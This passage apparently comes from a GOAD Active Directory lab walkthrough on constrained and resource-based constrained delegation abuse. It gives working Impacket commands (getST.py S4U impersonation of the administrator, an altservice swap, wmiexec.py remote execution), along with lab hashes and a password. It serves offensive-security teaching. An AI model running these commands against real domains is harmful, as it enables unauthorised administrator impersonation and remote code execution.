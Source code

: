 - Do the s4u2self followed by the s4u2proxy on castelblack (this is the classic RBCD attack)

```bash
# s4u2self on X (rbcd_const)
getST.py -self -impersonate "administrator" -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'

# s4u2proxy from X (rbcd_const) to constrained (castelblack)
getST.py -impersonate "administrator" -spn "host/castelblack" -additional-ticket 'administrator@rbcd_const$@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'
```

- You could also do the 2 (s4u2self + s4u2proxy) in one command :

```bash
getST.py -spn 'host/castelblack' -impersonate Administrator -dc-ip 192.168.56.11 north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'
```

- And launch the s4uProxy with the forwardable ticket

```bash
# s4u2proxy from constrained (castelblack) to target (winterfell) - with altservice to change the SPN in use
getST.py -impersonate "administrator" -spn "http/winterfell" -altservice "cifs/winterfell" -additional-ticket 'administrator@host_castelblack@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 192.168.56.11 -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'

export KRB5CCNAME=/workspace/administrator@cifs_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache 
wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell
```

![deleg_constraint_deleg_exploit2.png](/assets/blog/GOAD/deleg_constraint_deleg_exploit2.png)

- After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin:

```bash
rbcd.py -delegate-to 'castelblack$' -delegate-from 'rbcd_const$' -dc-ip 192.168.56.11 -action 'flush' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/eddard.stark:FightP3aceAndHonor!' -delete
```

## Resource Based Constrained Delegation

- Resource Based Constrained delegation (RBCD)

- You can abuse RBCD when you can edit the attribute : msDS-AllowedToActOnBehalfOfOtherIdentity

> A computer account can edit his own attribute msDS-AllowedToActOnBehalfOfOtherIdentity
> This is usefull when you do ldaps NTLM relay (like in the drop-the-mic attack path), you can then edit the computer attribute and launch an RBCD exploitation.
{: .prompt-tip }

- An example of exploitation is when you got genericAll or genericWrite ACL on a Computer.
